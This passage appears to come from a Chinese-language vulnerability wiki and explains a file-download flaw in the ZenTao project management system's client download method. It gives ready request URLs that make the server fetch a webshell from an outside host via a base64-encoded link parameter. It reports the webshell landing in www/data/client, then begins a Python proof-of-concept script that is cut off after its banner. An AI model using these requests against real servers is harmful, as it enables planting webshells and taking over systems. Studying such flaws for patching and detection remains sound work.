 可以简单看到这里获取link传入的文件名，通过**fopen**打开该文件，写入禅道目录**www/data/client/version**中

查看一下有没有调用这个方法的地方

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-7.png)

找到了**download**方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法

```
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```

首先先上传一个恶意文件，可以是FTP也可以是HTTP

例如我上传的文件URL为**http://peiqi.tech/SHELL.php**

```
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

请求地址则为

```
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-8.png)

下载的目录地址为**zentaopms\www\data\client\1**

> [!NOTE]
>
> 目录为version名称

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-9.png)

成功上传webshell

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-10.png)

## 漏洞利用POC

> [!NOTE]
>
> POC使用需要拥有后台Cookie

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
```